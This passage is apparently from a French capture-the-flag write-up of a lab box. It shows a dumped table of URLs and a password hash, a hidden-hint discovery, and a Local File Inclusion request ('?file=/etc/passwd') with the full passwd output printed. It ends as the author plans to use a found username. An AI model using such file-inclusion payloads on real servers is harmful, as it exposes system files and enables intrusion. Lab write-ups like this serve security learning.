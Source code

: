 ```
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (e[...]k)          |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
```
Je trouve bizarre que cela passe de l'id 1 a 3, ou est le 2 ?

Le mot de passe fonctionne bien, nous accèdons a une page avec un chat IA qui ne fonctionne pas
```
http://10.10.104.34:1337/admin_101/chat.php
```
```
We are at capacity right now

We're trying to resolve this issue as soon as possible
```
On va regarder du coter **/file1010111/index.php**
Cela pointe vers une page qui demande un mot de passe qui est **e[...]k**

Il nous affiche ce message 
```
Parameter Fuzzing is also important :) or Can you hide DOM elements? 
```
Quand on inspect on retrouve un petit hint :
```
 <p class="mb-4"><strong>Parameter Fuzzing is also important :)  or Can you hide DOM elements? <strong></p><span  style="display: none;">Hint: Try file or view as GET parameters?</span>
```
Et effectivement, l'url suivante fonctionne et donc montre une LFI (Local File Inclusion)
```
http://expose.thm:1337/file1010111/index.php?file=/etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin bind:x:115:122::/var/cache/bind:/usr/sbin/nologin Debian-snmp:x:116:123::/var/lib/snmp:/bin/false redis:x:117:124::/var/lib/redis:/usr/sbin/nologin mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin 
```
J'ai test de trouver des clé ssh etc. mais rien, puis je me suis souvenu de la seconde ligne:
```
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
```
Notre user est **zeamkish** donc je doit pouvoir accéder a cette page avec cet user.

